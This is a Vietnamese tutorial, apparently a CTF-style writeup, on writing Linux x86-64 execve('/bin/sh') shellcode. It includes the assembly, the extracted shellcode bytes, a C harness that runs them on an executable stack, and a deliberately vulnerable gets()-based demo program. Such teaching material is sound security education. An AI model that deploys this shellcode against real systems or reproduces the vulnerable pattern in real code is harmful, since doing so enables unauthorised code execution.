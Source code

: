 # Shellcoding (Linux)
Khái niệm về shellcode có rất nhiều bài viết định nghĩa về nó, nên mình sẽ đề cập lại ở đây .Các bạn có thẻ tham khảo 1 số bài viết:
- https://vnhacker.blogspot.com/2006/12/shellcode-thn-chng-nhp-mn.html
- https://en.wikipedia.org/wiki/Shellcode

Tiếp theo mình sẽ nói về cách viết 1 shellcode cơ bản, cụ thể ở đây là 1 shellcode thực thi việc lên shell. Việc lên shell ở đây bản chất là ta sử dụng syscall execve("/bin/sh", NULL, NULL). Syscall là gì thì mình có giải thích qua ở bài viết về ROP bạn có thể tham khảo ở đây:
- https://github.com/shawking2/Writeup/tree/main/ROP

Để Shellcode có thể thực thi trong chương trình thì ta cần 1 số điều kiện cơ bản:

\+ Vùng nhớ ta đặt shellcode phải có quyền execute 
\+ Instruction call địa chỉ mà ta trữ shellcode đó. Khi đó shellcode sẽ được thực thi.
\+ Instruction ret về địa chỉ chú shellcode
\+ Lệnh nhảy về địa chỉ chứ shellcode của ta
\+ Mình chỉ liệt kê cách cách thực thi shellcode thường gặp mà mình thấy (vẫn còn nhiều trường hợp khác)

Để viết một shellcode sử dụng syscall execve("/bin/sh", NULL, NULL). Đầu tiên ta phải viết 1 chương trình assembly call syscall exceve("/bin/sh", NULL, NULL):
```
section .text
  global _start
    _start:
      push rax                    
      mov rbx,'/bin//sh'            # cho rbx chứa chuỗi "/bin/sh"
      xor rsi, rsi                  # rsi = NULL tham số thứ thứ 3 của exceve
      xor rdx, rdx                  # rdx = NULL tham số thứ thứ 3 của exceve
      push rbx                      # push chuỗi '/bin/sh' vào stack. Điều ngày có nghĩa rsp đang mang giá trị là địa chỉ của chuỗi '/bin/sh' 
      push rsp                      # push giá trị của rsp -> địa chỉ của '/bin/sh'
      pop rdi                       # rbx sẽ chứa đối số đầu tiên của excecve  -> "/bin/sh"
      mov al, 0x3b                  # syscall number của exceve
      syscall
```
Để biên dịch nó ta sẽ đưa đoạn code này lưu vào 1 file .asm .Sau dó dùng các lệnh sau để biên dịch:

> nasm -f elf64 shellcode.asm -o shellcode.o

> ld shellcode.o -o shellcode

Thao tác vừa rồi, ta vừa biên dịch đoạn code asm thành file binary:
```
higgs@DESKTOP-PMDB9KR:~$ ./shellcode
$ whoami
shawking
$
```
Run file này ta có thể thấy t đã hoàn thành việc lên shell nhờ gọi syscall exceve("/bin/sh", NULL, NULL).

Vậy thì tiếp theo làm sao ta tạo ra 1 shellcode .Nếu các bạn đã đọc qua cái bài viết ở trên thì bạn sẽ biết rằng shellcode chính là các byte code. Byte code ở đây thức chất chính là các opcode của các instruction trong chương trình ta vừa viết. Vậy để có được shellcode ta chỉ cần xem opcode của nó.

Công cụ objdump sẽ giúp ta điều này:
```
higgs@DESKTOP-PMDB9KR:~$ objdump --disassemble test

test:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:       50                      push   %rax
  401001:       48 31 d2                xor    %rdx,%rdx
  401004:       48 31 f6                xor    %rsi,%rsi
  401007:       48 bb 2f 62 69 6e 2f    movabs $0x68732f2f6e69622f,%rbx
  40100e:       2f 73 68
  401011:       53                      push   %rbx
  401012:       54                      push   %rsp
  401013:       5f                      pop    %rdi
  401014:       b0 3b                   mov    $0x3b,%al
  401016:       0f 05                   syscall
```
Các bạn quan sát sẽ thấy có 1 cột hiện thị mã hex:

![screenshot](https://github.com/shawking2/Writeup/blob/main/ShellCode/img/opcode.PNG)
Xâu chuỗi các mã hex lại theo thú tự như trên ta có 1 chuỗi shellcode thực thi exceve("/bin/sh",NULL, NULL)
> SHELLCODE: 
```
\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
```
Ta có thể viết 1 đoạn code c đẻ kiểm tra shellcode của chúng ta (lưu ý ta phải thêm tham số -z execstack để có quyền execute trên stack)
```
#include <stdio.h>
main()
{
    unsigned char shellcode[] = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05";
    int (*ret)() = (int(*)())shellcode;
    ret();
}
```
Biên dịch :  gcc -z execstack -o shell shell.c
Kết quả thực thi:
```
higgs@DESKTOP-PMDB9KR:~$ gcc -z execstack -o test test.c
test.c:4:1: warning: return type defaults to ‘int’ [-Wimplicit-int]
    4 | main()
      | ^~~~
higgs@DESKTOP-PMDB9KR:~$ ./test
$ whoami
shawking
$
```
Phân tích assembly của chương trình trên sẽ hiệu tại sao shellcode được thực thi:
```
   0x555555555129 <main+4>             sub    rsp, 0x10
   0x55555555512d <main+8>             lea    rax, qword ptr [rip + 0x2efc] <0x555555558030>
   0x555555555134 <main+15>            mov    qword ptr [rbp - 8], rax
   0x555555555138 <main+19>            mov    rdx, qword ptr [rbp - 8]
   0x55555555513c <main+23>            mov    eax, 0
 ► 0x555555555141 <main+28>            call   rdx <shellcode>
        rdi: 0x1
        rsi: 0x7fffffffdff8 —▸ 0x7fffffffe207 ◂— '/home/higgs/test'
        rdx: 0x555555558030 (shellcode) ◂— push   rax /* 0x48f63148d2314850 */
        rcx: 0x7ffff7fac718 (__exit_funcs) —▸ 0x7ffff7faeb00 (initial) ◂— 0

   0x555555555143 <main+30>            mov    eax, 0
   0x555555555148 <main+35>            leave
   0x555555555149 <main+36>            ret
```
Tại đây instruction call sẽ call địa chỉ chứa shellcode của chúng ta. Khi đó shellcode sẽ được thi.
> Challenge demo:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

// gcc -z execstack -o demo demo.c -no-pie
int main(void)
{
  char buffer[32];
  printf("DEBUG: %p\n", buffer);
  gets(buffer);
}
```
### File binary: [demo](https://github.com/shawking2/Writeup/blob/main/ShellCode/src/demo?raw=true)








